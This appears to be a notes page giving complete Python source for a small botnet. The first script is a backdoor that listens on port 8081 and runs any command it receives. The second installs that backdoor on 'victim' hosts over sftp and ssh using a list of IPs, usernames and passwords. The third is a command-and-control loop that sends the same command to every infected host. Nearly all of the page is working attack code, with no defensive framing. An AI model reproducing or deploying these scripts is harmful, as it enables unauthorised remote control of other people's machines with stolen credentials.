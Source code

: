 ### netshell.py script
First create a server script utilizing the [[Python Sockets Library]] to run on victim clients that will keep an open listening port. (In this case 8081). This script will listen on a specified port for incoming traffic and then run the traffic as a command on the shell. When this script is deployed on a machine, you can connect via telnet
`telnet <victim ip> <port>

``` python
#!/usr/bin/python3

#a simple network shell to run command received from someone else
import socket, subprocess, select

# set up a listener socket for incoming commands
listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
listener.bind(('', 8081))
listener.listen(10)

#create a list for all client sockets
allsocks = [listener]

#store client info
client_info = {}

#loop to accept a connection and run a command that was received
while True:
	#now we have multiple sockets, let the os tell us which socket wants to talk
	ready, output, exceptions = select.select(allsocks, [], [])
	for sock in ready:
		if sock == listener:
			client, addr = listener.accept()
			print("New connection from", addr)
			allsocks.append(client)
			
			client_info[client] = {"addr": addr, "exit_requested": False}
		else:
			commbytes = sock.recv(1024)
			if not commbytes:
				print("Connection closed by", client_info[sock]["addr"])
				sock.close()
				allsocks.remove(sock)
				del client_info[sock]
			else:
				commlist = commbytes.decode().rstrip().split()
				print("Executing command", commlist)
				
				#change exit condition to true for the respective sock if "exit" is typed in client
				if commlist == ["exit"]:
					print("Exit command received from", client_info[sock]["addr"])
					client_info[sock]["exit_requested"] = True
				else:
				# use popen and communicate to run the command
					try:
						p1 = subprocess.Popen(commlist, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
						outbytes, errbytes = p1.communicate()
						result = "STDOUT:\n" + outbytes.decode() + "\nSTDERR:\n" + errbytes.decode()

					except OSError as e:
		          			result = "Error: " + str(e)

				sock.sendall(result.encode())
			
			
```


### botinstall.py script
The following script is used to transfer and deploy the netshell.py script on victim machines. The script takes a file path as an argument point towards a text file containing machines to compromise. The text file is organized as follows:
` ip, username, password \n`
This script uses the Python expect library
```python
#!/usr/bin/python3

import pexpect
import sys

def readlist(file_path):
	compromised_hosts = []
	with open(file_path, 'r') as file:
		for line in file:
			ip, username, password = line.strip().split()
			compromised_hosts.append((ip, username, password))
	print('Read compromised_hosts.txt')
	print('Installing backdoor on the following hosts: ' + str(compromised_hosts))
	return compromised_hosts
	

def installbots(ip, username, password):
	print('Executing payload on ' + ip)
	try:
		sftp_cmd = 'sftp ' + username + '@' + ip
		child = pexpect.spawn(sftp_cmd)
		child.expect('password')
		child.sendline(password)
		child.expect('sftp>')
		child.sendline('put netshell.py')
		child.expect('sftp>')
		child.sendline('exit')
		print("script uploaded")
		
		ssh_cmd = 'ssh ' + username + '@' + ip
		child = pexpect.spawn(ssh_cmd)
		child.expect('password:')
		child.sendline(password)
		child.expect('$')
		child.sendline('nohup python netshell.py &')
		child.expect('$')
		child.sendline('exit')
		print('shell started')
		
		
		with open('botted_hosts.txt', 'a') as file:
			file.write(ip + '\n')
	
	except Exception as e:
		print('error botting ' + ip + ' Error: ' + str(e))
	
 


hostfile = sys.argv[1]

hostlist = readlist(hostfile)

for ip, username, password in hostlist:
	installbots(ip, username, password)
print("botted_hosts.txt written")
```


### CandC.py Script
lastly this script sends commands to all compromised devices provided. This script takes the path to a text file containing compromised device information as the first argument. The file is to be formatted as follows:
` <victim ip> \n`


```python
#!/usr/bin/python3

import socket, sys

def read_bots(botfile):
	with open(botfile, 'r') as file:
		return [line.strip() for line in file]

def send_command(botip, command):
	try: 
		listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		#listener.settimeout(1)
		listener.connect((botip, 8081))
		listener.sendall(command.encode())
		
		data = listener.recv(1024)
		print("Result from bot: " + botip + "\n" + data.decode() + "\n")
	except Exception as e:
		print( "Error connecting to " + botip + " Error: " + str(e) + "\n")


botips = read_bots(sys.argv[1])
while True:
	command = input("Enter command: ")
		
	if command.lower() == 'exit':
		break
		
	for bot_ip in botips:
		result = send_command(bot_ip, command)
		

	
```